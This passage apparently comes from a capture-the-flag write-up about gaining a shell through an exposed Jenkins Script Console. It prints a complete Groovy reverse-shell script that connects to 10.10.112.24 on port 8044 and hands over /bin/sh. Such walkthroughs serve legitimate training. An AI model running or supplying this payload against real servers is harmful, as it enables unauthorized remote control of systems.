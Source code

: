 The site was running Jenkins 2.250.

On the site, I had access to Script Console, which allowed me to run some system commands. 
![](images/sc_example.png)

Clearly, this was another opportunity to gain a shell on this Docker instance.

I looked up reverse shells for Jenkins Script Console, and found [this one](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76). It is written to execute on windows systems (and of course I need to change the callback host), so the final modified script is shown below.

```
String host="10.10.112.24";
int port=8044;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
